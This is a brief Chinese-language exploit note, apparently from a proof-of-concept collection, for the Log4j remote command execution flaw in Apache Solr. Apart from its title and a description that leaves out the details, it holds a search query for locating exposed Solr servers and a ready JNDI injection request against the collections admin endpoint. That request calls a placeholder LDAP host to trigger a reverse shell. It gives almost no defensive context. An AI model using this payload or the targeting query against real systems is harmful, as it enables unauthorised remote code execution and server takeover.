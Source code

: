 # Apache Solr Log4j 组件 远程命令执行漏洞 

## 漏洞描述

Apache Solr Log4j 组件 远程命令执行漏洞，详情略

## 漏洞影响

```
Apache Solr
```

## 网络测绘

```
app="APACHE-Solr"
```

## 漏洞复现

登录页面

![](images/202205251622273.png)

验证 POC

```
/solr/admin/collections?action=${jndi:ldap://xxx/Basic/ReverseShell/ip/87}&wt=json
```

![](images/202205251622876.png)
